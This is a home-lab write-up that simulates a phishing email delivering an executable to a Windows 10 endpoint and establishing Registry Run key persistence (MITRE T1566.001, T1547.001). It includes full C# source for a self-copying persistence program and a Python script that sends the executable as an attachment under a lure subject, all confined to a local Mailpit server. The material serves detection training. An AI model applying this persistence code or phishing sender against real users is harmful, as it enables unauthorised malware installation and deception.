



# Attack Execution — Phishing Email to Registry Run Key Persistence

## Objective

The goal of this lab was to send a phishing-style email with a harmless Windows executable, download it on a Windows 10 endpoint, and run it as a standard user. The program copies itself into the user's Local AppData folder, adds a Registry Run value, and records each execution in a log file. After signing out and signing back in, Windows launches the same executable again through the Run entry.

Mailpit was used to keep the email inside the lab. Nothing was sent to a real external email account.

## Lab environment

| Component | Value |
|---|---|
| Sender system | Kali Linux |
| Kali IP | 192.168.29.163 |
| Target endpoint | Windows 10 — WIN10-SOC-LAB |
| Windows IP | 192.168.29.72 |
| Lab account | SOC-LabUser (standard user) |
| Email testing server | Mailpit |
| SMTP port | TCP/1025 |
| Mailpit web interface | TCP/8025 |
| Executable | LabPersistenceDemo.exe |
| Registry location | HKCU\Software\Microsoft\Windows\CurrentVersion\Run |
| MITRE ATT&CK | T1566.001 — Spearphishing Attachment; T1547.001 — Registry Run Keys / Startup Folder |

> **Note:** The IP addresses, hostnames and usernames shown in this guide belong to my lab environment. Replace them with the corresponding values from your own environment before executing the commands. Do not copy these values directly.

## Execution steps

### 1. Start Mailpit on Kali Linux

Mailpit received the email over SMTP and made it available through its web interface. On Kali, start Mailpit and leave the terminal running:

~~~bash
mailpit --listen 192.168.29.163:8025 --smtp 192.168.29.163:1025
~~~

The web interface can be opened from Windows at:

~~~text
http://192.168.29.163:8025
~~~

### 2. Create the Windows executable

The executable was created on Windows using the .NET Framework C# compiler already installed on the endpoint. The program performs four actions:

- Creates a folder named LabPersistenceDemo under the current user's Local AppData directory.
- Copies itself into that folder.
- Uses the Windows reg.exe utility to add a value named LabPersistenceDemo to the current user's Registry Run key.
- Appends the timestamp and username to execution.log.

The Registry entry is created under HKCU, so it applies to the account that runs the program. The executable does not request administrator privileges.

**C# source code — LabPersistenceDemo.cs**

~~~csharp
using System;
using System.Diagnostics;
using System.IO;

class LabPersistenceDemo
{
    static int Main()
    {
        try
        {
            string currentExe = Process.GetCurrentProcess().MainModule.FileName;

            string folder = Path.Combine(
                Environment.GetFolderPath(Environment.SpecialFolder.LocalApplicationData),
                "LabPersistenceDemo");

            Directory.CreateDirectory(folder);

            string installedExe = Path.Combine(folder, "LabPersistenceDemo.exe");

            if (!String.Equals(Path.GetFullPath(currentExe),
                Path.GetFullPath(installedExe),
                StringComparison.OrdinalIgnoreCase))
            {
                File.Copy(currentExe, installedExe, true);
            }

            string regExe = Path.Combine(
                Environment.GetFolderPath(Environment.SpecialFolder.System),
                "reg.exe");

            string args =
                "add \"HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run\" " +
                "/v LabPersistenceDemo /t REG_SZ /d \"" +
                installedExe + "\" /f";

            ProcessStartInfo info = new ProcessStartInfo();
            info.FileName = regExe;
            info.Arguments = args;
            info.UseShellExecute = false;

            using (Process p = Process.Start(info))
            {
                p.WaitForExit();

                if (p.ExitCode != 0)
                    throw new Exception("Registry modification failed.");
            }

            string log = Path.Combine(folder, "execution.log");

            File.AppendAllText(
                log,
                DateTime.Now.ToString("o") +
                " | Executed by " + Environment.UserName +
                Environment.NewLine);

            Console.WriteLine("Lab simulation completed successfully.");
            Console.WriteLine("Execution log: " + log);

            return 0;
        }
        catch (Exception ex)
        {
            Console.WriteLine("Error: " + ex.Message);
            return 1;
        }
    }
}
~~~

Save the source as LabPersistenceDemo.cs. Compile it from Windows PowerShell while signed in as SOC-LabUser:

~~~powershell
$compiler = "$env:WINDIR\Microsoft.NET\Framework64\v4.0.30319\csc.exe"
& $compiler /nologo /target:exe /out:"$env:USERPROFILE\Desktop\LabPersistenceDemo.exe" "$env:USERPROFILE\Desktop\LabPersistenceDemo.cs"
~~~

The executable is created on the Windows Desktop.

### 3. Transfer the executable to Kali

The executable was built on Windows, then copied to Kali so it could be attached to the email. This was only a staging step; the email was sent from Kali through Mailpit to the Windows endpoint.

On Kali, enable SSH:

~~~bash
sudo systemctl enable --now ssh
~~~

From Windows PowerShell, copy the executable to Kali:

~~~powershell
scp "$env:USERPROFILE\Desktop\LabPersistenceDemo.exe" kali@192.168.29.163:/home/kali/
~~~

On Kali, check that the file arrived:

~~~bash
ls -lh ~/LabPersistenceDemo.exe
file ~/LabPersistenceDemo.exe
~~~

The file command should identify it as a Windows PE/.NET executable. Do not run it on Kali.

### 4. Prepare the email sender on Kali

Create the Python email sender:

~~~bash
nano ~/send_lab_email.py
~~~

Add this code:

~~~python
from pathlib import Path
from email.message import EmailMessage
import smtplib

# Mailpit configuration
SMTP_HOST = "192.168.29.163"
SMTP_PORT = 1025

# Email attachment
attachment = Path.home() / "LabPersistenceDemo.exe"

if not attachment.is_file():
    raise FileNotFoundError(f"Executable not found: {attachment}")

# Create email
message = EmailMessage()
message["From"] = "it-support@lab.test"
message["To"] = "soc-labuser@lab.test"
message["Subject"] = "Updated Employee Document - Review Required"

message.set_content("""
Hello,

An updated employee document is attached for review.

Please review the attachment.

Regards,
IT Support
""")

# Attach executable
message.add_attachment(
    attachment.read_bytes(),
    maintype="application",
    subtype="octet-stream",
    filename=attachment.name
)

# Send email to local Mailpit server
with smtplib.SMTP(SMTP_HOST, SMTP_PORT, timeout=10) as smtp:
    smtp.send_message(message)

print("Executable attachment sent to Mailpit successfully.")
~~~

Save the file and exit Nano.

### 5. Send the email and confirm receipt

Keep Mailpit running. Open a second Kali terminal and send the email:

~~~bash
python3 ~/send_lab_email.py
~~~

The email used the following details:

| Field | Value |
|---|---|
| From | it-support@lab.test |
| To | soc-labuser@lab.test |
| Subject | Updated Employee Document - Review Required |
| Attachment | LabPersistenceDemo.exe |

From Windows, open the Mailpit interface at http://192.168.29.163:8025 and open the received message.

**Figure 1 — Phishing-style email received in Mailpit**

### 6. Download the executable on Windows

The attachment was downloaded by SOC-LabUser. During this test, the browser did not complete the executable download reliably, so the attachment was retrieved directly from Mailpit's local API instead.

Run this in Windows PowerShell:

~~~powershell
$base = "http://192.168.29.163:8025"

$msg = Invoke-RestMethod "$base/api/v1/message/latest"

$attachment = $msg.Attachments |
    Where-Object { $_.FileName -eq "LabPersistenceDemo.exe" } |
    Select-Object -First 1

if (-not $attachment) {
    throw "Executable attachment not found in Mailpit."
}

$output = "$env:USERPROFILE\Downloads\LabPersistenceDemo.exe"

Invoke-WebRequest -Uri "$base/api/v1/message/$($msg.ID)/part/$($attachment.PartID)" -OutFile $output

Get-Item $output | Select-Object Name, Length
~~~

Confirm that LabPersistenceDemo.exe is present in the Downloads folder.

**Figure 2 — Executable downloaded on Windows**

### 7. Execute the attachment as SOC-LabUser

While signed in as the standard user SOC-LabUser, double-click LabPersistenceDemo.exe in the Downloads folder. It does not need to be run as Administrator.

When launched, the program copies itself to:

~~~text
C:\Users\SOC-LabUser\AppData\Local\LabPersistenceDemo\LabPersistenceDemo.exe
~~~

It then creates this Registry value:

~~~text
HKCU\Software\Microsoft\Windows\CurrentVersion\Run
Value name: LabPersistenceDemo
Value data: C:\Users\SOC-LabUser\AppData\Local\LabPersistenceDemo\LabPersistenceDemo.exe
~~~

The program also creates an execution log at:

~~~text
%LOCALAPPDATA%\LabPersistenceDemo\execution.log
~~~

The console window may appear briefly and close when the program finishes. The Registry value and execution log were used to verify the result.

### 8. Verify Registry persistence and automatic execution

First, query the Registry Run value:

~~~powershell
reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v LabPersistenceDemo
~~~

Then check the execution log:

~~~powershell
Get-Content "$env:LOCALAPPDATA\LabPersistenceDemo\execution.log"
~~~

The first log entry was written during the initial manual execution. After signing out and signing back in as SOC-LabUser, Windows launched the executable through the Run key and a second log entry appeared.

The two recorded executions were:

| Execution | Time (local, UTC+05:30) | User |
|---|---|---|
| Initial manual execution | 12:37:23 | SOC-LabUser |
| Automatic execution after next logon | 12:46:42 | SOC-LabUser |

The installed executable's SHA256 hash was also recorded:

~~~text
365A0913BB6731BBCBAF2A0D64D7BB751D5185A4CC04D7AB260C8AE6DC179B22
~~~

**Figure 3 — Registry Run entry and execution log after the next logon**

## Notes

- This was a controlled phishing-style simulation. Mailpit stored the test email locally; the message was not delivered to an external recipient.
- The executable was created for this lab and ran as the standard user SOC-LabUser. It did not require administrator privileges.
- The Registry Run value was created under HKCU, so it applied to the account used to execute the program.
- The three screenshots above document email receipt, executable download, and successful Registry persistence verification. Wazuh alert analysis and event correlation are covered separately in the investigation report.
